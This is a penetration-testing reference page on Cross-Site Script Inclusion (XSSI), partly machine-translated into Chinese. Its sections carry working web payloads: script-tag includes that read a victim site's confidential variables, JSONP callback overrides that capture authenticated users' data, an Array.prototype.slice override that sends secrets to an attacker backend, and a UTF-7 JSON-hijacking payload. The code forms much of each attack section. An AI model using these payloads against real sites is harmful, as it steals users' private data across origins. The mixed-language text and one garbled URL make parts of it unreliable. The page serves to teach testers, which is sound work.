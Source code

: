 # XSSI (Cross-Site Script Inclusion)

#### The information was taken from [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)

## Basic Information

XSSI 漏洞，它利用以下情况：当使用 `script` 标签包含资源时，同源策略（SOP） 将再不适用，因为脚本必须能够跨域包含。因此，攻击者可以读取使用 `script` 标签包含的所有内容。

当涉及到动态 JavaScript 或 JSONP 时，当所谓的环境权限信息（如 cookie）用于身份验证时，这一点尤其有趣。当从不同的主机请求资源时会包含 cookie。

### Types

1. Static JavaScript (regular XSSI)
2. Static JavaScript, which is only accessible when authenticated
3. Dynamic JavaScript
4. Non-JavaScript

## 常规的 XSSI

私有信息位于全局可访问的 JS 文件中，您可以通过读取文件、搜索关键字或使用正则表达式来检测它。\
要利用这一点，只需在恶意内容中包含带有私人信息的脚本：

```markup
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```

## Dynamic-JavaScript-based-XSSI and  Authenticated-JavaScript-XSSI

**Confidential【机密】 information is added to the script when a user requests it**. This can be easily discovered by sending the request **with and without the cookies**, if **different information** is retrieved, then confidential information could be contained. To do this automatically you can use burp extension: [https://github.com/luh2/DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

如果信息位于全局变量中，您可以使用与前一种情况相同的代码来利用它。\ 
如果机密数据在 JSONP 响应中发送，您可以重写执行的函数来检索信息：

```markup
<script>
      //The confidential info will be inside the callback to angular.callbacks._7: angular.callbacks._7({"status":STATUS,"body":{"demographics":{"email":......}}})
      var angular = function () { return 1; };
      angular.callbacks = function () { return 1; };      
      angular.callbacks._7 = function (leaked) {
	  alert(JSON.stringify(leaked));
      };  
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

Or you could also set a prepared function to be executed by the JSONP response:

```markup
<script>
      leak = function (leaked) {
	  alert(JSON.stringify(leaked));
      };  
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```


如果变量不在全局命名空间内，有时可以使用 _prototype tampering_ 来利用它。原型篡改滥用了 JavaScript 的设计，即在解释代码时，JavaScript 会遍历原型链找到被调用的属性。以下示例摘自论文 [The Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf) 并演示了如何覆盖相关函数`Array` 类型和对 `this` 的访问，非全局变量也可能被泄露。
 
```javascript
(function(){
  var arr = ["secret1", "secret2", "secret3"];
  // intents to slice out first entry
  var x = arr.slice(1);
  ...
})();
```

在原始代码中，`Array` 类型的`slice` 访问我们感兴趣的数据。如前文所述，攻击者可以覆盖`slice` 并窃取机密。

```javascript
Array.prototype.slice = function(){
  // leaks ["secret1", "secret2", "secret3"]
  sendToAttackerBackend(this);
};
```

Security Researcher [Sebastian Lekies](https://twitter.com/slekies) just recently updated his list of [vectors](http://sebastian-lekies.de/leak/).

## &#x20;Non-Script-XSSI

Takeshi Terada 在他的论文 [基于标识符的 XSSI 攻击] (https://www.mbsd.jp/Whitepaper/xssi.pdf) 中描述了另一种 XSSI。他能够通过在 `script` 标签中包含 CSV 文件作为源，使用数据作为变量和函数名称来跨源泄漏非脚本文件。

第一次公开记录的 XSSI 攻击是在 2006 年。Jeremiah Grossman 的博客文章 [使用 GMail 的高级 Web 攻击技术](http://jeremiahgrossman.blogspot.ch/2006/01/advanced-web-attack-techniques-using.html) 描述了一个 XSSI，它通过覆盖 `Array` 构造函数能够读取 google 帐户的完整地址簿。

2007 年 Joe Walker 发表了 [JSON 不像人们想象的那样安全](http://incompleteness.me/blog/2007/03/05/json-is-not-as-safe-as-people-think-它是/）。他使用相同的想法来窃取 `Array` 中的 JSON。

Other related attacks were conducted【实施】 by injecting UTF-7 encoded content into the JSON to escape the JSON format. It is described by Gareth Heyes, author of [Hackvertor](https://hackvertor.co.uk/public), in the blog entry [JSON Hijacking](http://www.thespanner.co.uk/2011/05/30/json-hijacking/) released in 2011. In a quick test, this was still possible in Microsoft Internet Explorer and Edge, but not in Mozilla Firefox or Google Chrome.

JSON with UTF-7:

```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

Including the JSON in the attacker’s page

```markup
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
